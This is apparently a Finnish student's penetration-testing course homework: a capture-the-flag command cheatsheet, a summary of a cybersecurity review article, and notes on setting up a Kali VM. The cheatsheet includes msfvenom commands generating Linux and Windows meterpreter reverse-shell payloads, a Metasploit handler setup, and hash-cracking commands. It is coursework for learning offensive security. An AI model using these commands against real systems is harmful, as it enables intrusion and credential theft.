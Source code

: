 # a) Cheatsheet. Kerää parhaat komennot lipunryöstöä varten. Lähteinä voit käyttää omia ja kurssikavereiden läksyraportteja, vanhoja cheatsheet:eja sekä vierailijoiden kalvoja. (Kerää nimenomaan ne komennot ja sisältö, ei pelkkää linkkilistaa, ei pelkkää kuvailua. Tässä alakohdassa komentoja ei tarvitse kokeilla koneella).

NMAP
| Syntax | Description |
| :--- | ---: |
| nmap -A -p- <'ip-address'> | Laaja porttiskannaus kaikille portille 1-65535 kohde IP koneelle. |
| nmap <'ip-address'> | Perusmuotoinen TCP SYN skannaus yleisimmille porteille 1-1000 kohde IP koneelle. |
| nmap --top-ports <'n'> <'ip-address'> | Perusmuotoinen skannaus yleisimmille 'n' määrälle porteille. Yleensä 1000. |  

FFUF
| Syntax | Description |
| :--- | ---: |
| ./ffuf -w common.txt -u http://kohdeURL/FUZZ | -w käyttää common.txt worlistia fuzzaamiseen, -u syötetään fuzzattava URL |
| ./ffuf -w common.txt -u http://kohdeURL/FUZZ -fc; -fl; -fmode; -fr; -fs; -ft; -fw | Filtterit : c > HTTP stat codes, l > lines, mode > parameters, r > regexp, s > size, t > time, w > wordcount |


METASPLOIT FRAMEWORK
| Syntax | Description |
| :--- | ---: |
| jobs -l ; -k | -l listaa käynnissä olevat tehtävät ja -k pysäyttävät ne. |
| sessions -l ; -i | -l listaa käynnissä olevat meterpreter sessiot ja -i ottaa siihen yhteyden |
| show -h  | Näyttävät vaihtoehdot mitä voidaan näyttää esim. payloads, exploits, plugins jne. |

METASPLOIT/MULTI/HANDLER
| Syntax | Description |
| :--- | ---: |
| use exploit/multi/handler | Payload handlerin käyttö |
| set PAYLOAD; LHOST; LPORT; ExitOnSession; run | Multi-handler parametrien asetukset |

MSFVENOM 
| Syntax | Description |
| :--- | ---: |
| msfvenom -p <'PAYLOAD'> -f <'Filetype'> LHOST= <'localhost-ip'> LPORT= <'listeningport'> > <'output-filename'> | msfvenom payloadin generointi |
| msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f elf > reverse.elf | Linux reverse-tcp payload generointi |
| msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f exe > reverse.exe | Windows reverse-tcp payload generointi |


JOHN THE RIPPER
| Syntax | Description |
| :--- | ---: |
| ./john/run/<'module-name'> > 'output-file.hash' | Ajaa run hakemistosta valitun moduulin joka ottaa hash tiedon ja ulostaa sen toiseen tiedostoon |
| ./john/run/john <'finlename.hash'> | Aloittaa hashin murtamista |

HASHCAT / HASHID
| Syntax | Description |
| :--- | ---: |
| hashid -m <'hash'> | Analysoi hashin ja sen mahdollista tyyppiä |
| hashcat -m <'mode-number'> <'hash'> <'wordlist.txt'> -o <'outputfile'> | -m kertoo hashmoden ja wordlistiin syötetään esim rockyou.txt ja -o ulostaa murretun hashin erilliseen tiedostoon. |

# b) Review. Etsi ja tiivistä vertaisarviotu katsausartikkeli valitsemaltasi kyberturvallisuuden tai hakkeroinnin alalta.

## Artikkelin valinta

Artikkeliksi valitsin Kaur J.:n ja Ramkumar K.R.:n kirjoittaman katsausartikkelin "The recent trends in cyber security: A review" joka on osana "Journal of King Saud University - Computer and Information Sciences" -Lehteä/sarjaa. Lehti on on saanut Julkaisufoorumin arvioinnin tasoa 1. Artikkeli on ollut julkisesti saatavilla 9.2.2021 ja sen virallinen lehtijulkaisuajankohta oli 9/2022.

Julkaisufoorumin arvio:
https://jfp.csc.fi/#!PublicationInformationView/id/84096

Artikkelia pääsee lukemaan tästä: 
https://www.sciencedirect.com/science/article/pii/S1319157821000203

Sen saa myös ilmaiseksi ladattuna PDF-muodossa.

## Artikkelin tiivistelmä


- Artikkelissa käsitellään nykyajan tietotuvan uusista menetelmistä ja teknologiasta, jolla pyritään tietoturvallisuuden viitekehyksiä. Se toimii ylipäätään teknisenä raporttina nykytutkijoille tietoturvan nykyisisestä tilasta.
-  Iso-Britannia on esittänyt kansallisen National Security Strategy vuosina 2016-2021 ja satsannut siihen 1.9 miljardia puntaa(£) kansallisen tietoturvansa parantamiseksi.
-  Vuonna 2018, Lähes 70 valtiota ovat jollakin tasolla dokumentoidusti kehittäneet heidän tietoturvastrategiansa.
- Artikkelissa käsiteltiin hieman kryptografian historiasta, jossa nykyajan salausmenetelmistä alkoi DES menetelmällä vuonna 1977. Tämä kuitenkin murrettiin vuonna 1999 alle 24 tunnissa brute-force hyökkäyksellä ja todettiin epäluotettavaksi lyhyen kirjainmääränsä vuoksi (56-bit).
DES menetelmälle kehitettiin EDE-mode (3DES) joka kolminkertaisti pituutensa (168-bit).
Vuonna 2001 NIST julisti valitsevansa uuden salausmenetelmän AES, jossa oli vaihtelevat pituudet (128, 192, 256 bittiä). AES ei ole tähän päivään asti pystytty murtamaan.
- Vuonna 1976, Diffie-Hellman menetelmä oli yksiä ensimmäisiä salausmenetelmiä, jossa hyödynnettiin jaetun avaimen salausmenetelmää. Tästä kehitettiin RSA menetelmä vuonna 1978 johon lisättiin julkisen avaimen menetelmää, joka myös yleisesti käytetään nykypäivänä.
- Nykypäivän RSA ja AES menetelmät halutaan parantaa implementoimalla Quantum cryptography menetelmiä. Quantum-salausmenetelmissä käytetään bittien sijaan Qbitteja, mitkä ovat mahdottomia kopioida, sekä mahdotonta tunnistaa minkälaisen suodattimen kautta sen purkamiseen käytetään. Quantum-tietokoneita ovat vielä kehitteellä, mutta voivat artikkelin mukaan olla käytössä jo vuonna 2025.
- Artikkelissa puhuttiin Side-Channel hyökkäyksistä (SCA). Näitä hyökkäyksiä salausmenetelmiä vastaan eivät suorannaisesti yritä murtaa salausta, vaan keskittyvät salauksen tekemiseen käytettäviin laitteisiin tai fyysisiin kanaviin. Tietoja voivat olla signaaleja, elektromagneettisia vuotoja, virrankulutustiedot, ajastustiedot ja äänitiedot.

# c) Valmiina lipunryöstöön. Asenna läppärillesi tarvittavat työkalut lipunryöstöön. Hyökkäyskone voi olla virtuaalikone. Se ei saa sisältää luottamuksellisia tietoja, koska sitä voi olla tarpeen tarkistaa ja tutkia harjoituksen yhteydessä. Koneella saatetaan ajaa testibinäärejä ja kontteja; sekä tarkastamiseen liittyviä ohjelmia. Harjoituksessa saattaa olla Docker-kontteja, kokeile, että Docker toimii (Muistaakseni 'sudo apt-get -y install docker.io').

Käytän tässä lipunryöstötehtävässä kurssilla käyttämääni Kali virtuaalikonetta

Varmistin, että minulla ei ollut arkaluonteista dataa konella. Tarkistin, että minulla oli tarvittavat paketit ja työkalut asennettuna lipunryöstöä varten:

Metasploit framework:

![image](https://github.com/danielz95/Tunkeutumistestaus-Penetration-Testing-2024/assets/128583292/438ab12b-e33c-44c8-a7fd-8779dadfac72)

![image](https://github.com/danielz95/Tunkeutumistestaus-Penetration-Testing-2024/assets/128583292/d5210beb-6392-46f9-9976-9816c71c3021)

nmap:

![image](https://github.com/danielz95/Tunkeutumistestaus-Penetration-Testing-2024/assets/128583292/2b968038-21c1-4579-a691-31608a86ee40)


ffuf:

![image](https://github.com/danielz95/Tunkeutumistestaus-Penetration-Testing-2024/assets/128583292/04aaa60b-109f-4e8a-8461-ce44dad5c932)

Jumbo John:

![image](https://github.com/danielz95/Tunkeutumistestaus-Penetration-Testing-2024/assets/128583292/bd7bfb4c-3fa8-44b3-8feb-2b089a0353af)

Hashcat ja HashID:

![image](https://github.com/danielz95/Tunkeutumistestaus-Penetration-Testing-2024/assets/128583292/839095a8-442d-459c-98b0-1c2fa9bc963c)

docker:

![image](https://github.com/danielz95/Tunkeutumistestaus-Penetration-Testing-2024/assets/128583292/ded2ac13-c8cf-4b1d-9f90-f840c61283cd)

# Lähteet

https://www.sciencedirect.com/science/article/pii/S1319157821000203




